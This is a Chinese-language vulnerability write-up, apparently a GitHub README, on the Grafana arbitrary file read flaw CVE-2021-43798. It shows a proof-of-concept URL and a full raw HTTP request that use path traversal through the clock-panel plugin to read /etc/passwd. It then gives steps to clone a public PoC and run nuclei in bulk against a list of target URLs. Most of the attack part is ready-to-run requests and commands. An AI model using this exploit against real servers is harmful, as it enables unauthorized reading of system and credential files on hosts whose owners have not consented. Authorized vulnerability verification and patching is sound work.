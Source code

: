 ![image](https://user-images.githubusercontent.com/84888757/227963443-c5ef2ccd-46c5-418c-9888-41da88313a1e.png)


- 存在:

<div align=center><img src="https://user-images.githubusercontent.com/84888757/227962622-0455b3e4-5b36-4b74-b393-c0b64b47854d.png" /></div>

![image](https://user-images.githubusercontent.com/84888757/227963195-646d0c9b-2d40-4ea9-ab7d-6c817acae60d.png)


![image](https://user-images.githubusercontent.com/84888757/227962787-2b71fefa-6b53-4ef2-8bf3-9d972aa7f3d7.png)


### 2、POC
```
https://xxxxxx.xx/public/plugins/grafana-clock-panel/../../../../../../etc/passwd
```

POC完整数据包：
```
GET /public/plugins/grafana-clock-panel/../../../../../../etc/passwd HTTP/1.1
Host: Your Ip:port
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

![image](https://user-images.githubusercontent.com/84888757/227966492-1248bea9-acac-43f1-b3c5-c3c146c2dc54.png)



## 3.2 批量验证
- 工具：
  - [nuclei扫描工具](https://github.com/projectdiscovery/nuclei)
  - [CVE-2021-43798-Grafana-File-Read-->POC](https://github.com/tangxiaofeng7/CVE-2021-43798-Grafana-File-Read)

- Ubuntu18安装go
  - ```sudo apt-get install golang```

- 下载poc：

```
git clone https://github.com/tangxiaofeng7/CVE-2021-43798-Grafana-File-Read.git
```

- 使用nuclei工具
```
./nuclei -t grafana.yaml -list urls.txt -o Gresult.txt
```
